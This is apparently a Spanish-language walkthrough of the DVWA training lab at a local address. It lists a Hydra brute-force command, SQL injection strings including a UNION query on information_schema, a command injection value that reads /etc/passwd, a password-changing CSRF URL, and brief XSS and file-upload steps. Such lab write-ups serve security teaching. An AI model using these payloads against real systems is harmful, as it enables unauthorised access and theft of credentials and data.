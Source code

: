 ### DVWA

## Brute Force

# Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-get-form://172.17.0.2/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=submit:Username and/or password incorrect."
```

![alt text](image.png)

# SQL Inyection

`admin '#`

![alt text](image-1.png)

## Command Injection

`8.8.8.8 | cat /etc/passwd`

![alt text](image-2.png)

## CSFR

Podemos cambiar directamente la contraseña desde la URL.

http://172.17.0.2/vulnerabilities/csrf/?password_new=sapo&password_conf=sapo&Change=Change#

## XSS

Escribimos un artículo y luego damos clic en "Sign guestbook". Luego, vamos a inspeccionar, buscamos el post, lo editamos y lo enviamos. Aquí cambiamos la contraseña.

![alt text](image-3.png)

![alt text](image-4.png)

## SQL INJECTION

El primer paso consiste en verificar si al inyectar una comilla simple ('), la aplicación devuelve un error. Una vez que se haya producido dicho error, podemos confirmar que la comilla simple (') es interpretada correctamente por el sistema.

El siguiente paso sería inyectar la cadena -1' OR '1'='1, lo cual engaña a la base de datos, haciendo que interprete la consulta como verdadera. Esto nos permite obtener los valores de la tabla "users".

Posteriormente, inyectamos la cadena -1' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database()--, lo que nos permite visualizar todas las tablas de la base de datos. Esto ocurre porque el campo "User ID" es vulnerable a inyección SQL, lo que implica que los datos ingresados por el usuario no están adecuadamente filtrados ni validados. Al insertar esta cadena, se altera la consulta original y se combina con otra consulta que recupera la lista de todas las tablas de la base de datos.

El uso de la cláusula UNION permite combinar los resultados de distintas consultas, y la vista information_schema proporciona los metadatos de la base de datos, lo que facilita el acceso a información sensible de la estructura de la misma.

![alt text](image-6.png)

![alt text](image-7.png)

![alt text](image-8.png)

## FILE UPLOAD

![alt text](image-9.png)

Creamos un php.info

![alt text](image-10.png)

![alt text](image-12.png)

![alt text](image-11.png)


